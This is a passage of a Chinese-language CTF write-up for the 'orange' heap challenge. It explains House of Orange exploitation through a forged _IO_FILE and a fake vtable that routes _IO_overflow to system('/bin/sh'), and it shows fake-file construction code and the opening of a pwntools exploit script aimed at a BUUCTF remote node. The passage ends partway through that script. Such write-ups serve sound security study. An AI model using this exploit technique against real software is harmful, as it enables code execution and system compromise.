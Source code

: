 ```c
    _IO_backup_base = 0x7f887ea5bbb8 <main_arena+152> "\250\273\245~\210\177",
    _IO_save_end = 0x7f887ea5bbb8 <main_arena+152> "\250\273\245~\210\177",
    _markers = 0x7f887ea5bbc8 <main_arena+168>,
    _chain = 0x7f887ea5bbc8 <main_arena+168>,
    _fileno = 2124790744,
    _flags2 = 32648,
    _old_offset = 140224217070552,
    _cur_column = 48104,
    _vtable_offset = -91 '\245',
    _shortbuf = "~",
    _lock = 0x7f887ea5bbe8 <main_arena+200>,
    _offset = 140224217070584,
    _codecvt = 0x7f887ea5bbf8 <main_arena+216>,
    _wide_data = 0x7f887ea5bc08 <main_arena+232>,
    _freeres_list = 0x7f887ea5bc08 <main_arena+232>,
    _freeres_buf = 0x7f887ea5bc18 <main_arena+248>,
    __pad5 = 140224217070616,
    _mode = 2124790824,
    _unused2 = "\210\177\000\000(\274\245~\210\177\000\000\070\274\245~\210\177\000"
  },
  vtable = 0x7f887ea5bc38 <main_arena+280>
}
```

可以看到，在`_IO_list_all`被修改后，`_chain`字段对应的是`main_arena+168`，在bin中对应的就是size为0x60的small bin，因此如果能在small bins[4]的位置放入一个chunk，那么`_chain`字段就会指向该chunk，将该chunk当作是`_IO_2_1_stdout`，我们在该chunk中伪造stdout即可。

而要放入small bins[4]也不困难，我们将unsorted bin chunk的size修改为0x61，后面build时malloc的第1个chunk的大小一定是0x21，不满足条件，这个unsorted bin中的chunk一定会被放入small bins[4]中，这样通过`_chain`找到该chunk。fake file的构造如下：

```py
# construct fake _IO_2_1_stdout
fakefile="/bin/sh\x00"+p64(0x61)+p64(0)+p64(IO_list_all-0x10) # reset bk 
fakefile+=p64(0)+p64(1) # write_base < write_ptr
fakefile=fakefile.ljust(0xd8,'\x00')
fakefile+=p64(heapbase+0x700+0xf0-0x18) # vtable, make _IO_overflow_t <vtable+3*0x8>==sys_addr
fakefile+=p64(0)*2
fakefile+=p64(sys_addr)
```

之后就在该chunk中构造`_IO_2_1_stdout`以及vtable即可，只要偏移算对就没什么问题了。最后伪造chunk头为"/bin/sh\x00"，伪造`_IO_overflow_t`为system，在对该fake file调用`_IO_new_file_overflow()`时即可调用`system("/bin/sh\x00")`get shell。

最终exp:（只能打通本地，打不通buu，应该是libc不对）

```python
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
filename='orange'
elf=ELF('./'+filename)
libc=ELF('./2.23-0ubuntu11.3_amd64/libc-2.23.so')
# p=process('./'+filename)
p=remote('node4.buuoj.cn',27360)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,'\x00'))
leak    = lambda name,addr          :log.success('{} = {}'.format(name, addr))

def debug(cmd='\n'):
  gdb.attach(p,cmd)
```